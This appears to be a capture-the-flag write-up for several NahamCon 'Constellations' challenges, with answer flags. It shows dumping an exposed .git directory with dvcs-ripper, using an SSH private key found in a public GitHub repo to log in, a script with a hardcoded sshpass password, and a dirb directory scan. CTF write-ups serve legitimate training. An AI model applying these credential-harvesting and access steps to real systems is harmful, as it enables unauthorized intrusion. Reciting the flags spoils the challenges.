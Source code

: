 ```
```
- GET '.git' WITH  'https://github.com/kost/dvcs-ripper'
- AFTER INSTALLING DEPENDENCIES, RUN:
```
./rip-git.pl -v -u https://constellations.page/.git/
```
CD INTO .GIT DIRECTORY, RUN
```
git show
...
flag{4063962f3a52f923ddb4411c139dd24c}
```

## GUS
- GITHUB - https://github.com/gusrodry
- VIEW GITHUB, '.ssh' DIRECTORY
```
flag{84d5cc7e162895fa0a5834f1efdd0b32}
```

## BANKING ON IT
```
chmod 600 id_rsa
ssh -p 31580 gus@challenge.nahamcon.com -i id_rsa
```

## HERCULES
VIEW GITHUB - https://github.com/HerculesScox
```
#!/bin/bash

IP=$1
PORT=$1

sshpass -p starstruckherc ssh hercules@$IP -p $PORT
#
# This flag can be submitted for the `Hercules` challenges, revealed after you solve `Meet The Team`, visible after you solve `Bionic`
# flag{5bf9da15002d7ea53cb487f31781ce47}
```

## LYRA
- LINKEDIN PAGE - https://www.linkedin.com/in/lyra-patte-a8193b207
- TWITTER - https://twitter.com/LyraPatte
- FROM TWITTER, ACCESS - 'https://constellations.page/constellations-documents/1/'
- RUN DIRB SCAN ON 'https://constellations.page/constellations-documents/' TO FIND:
```
https://constellations.page/constellations-documents/5/
flag{bd869e6193c27308d2fd3ad4b427e8c3}
```
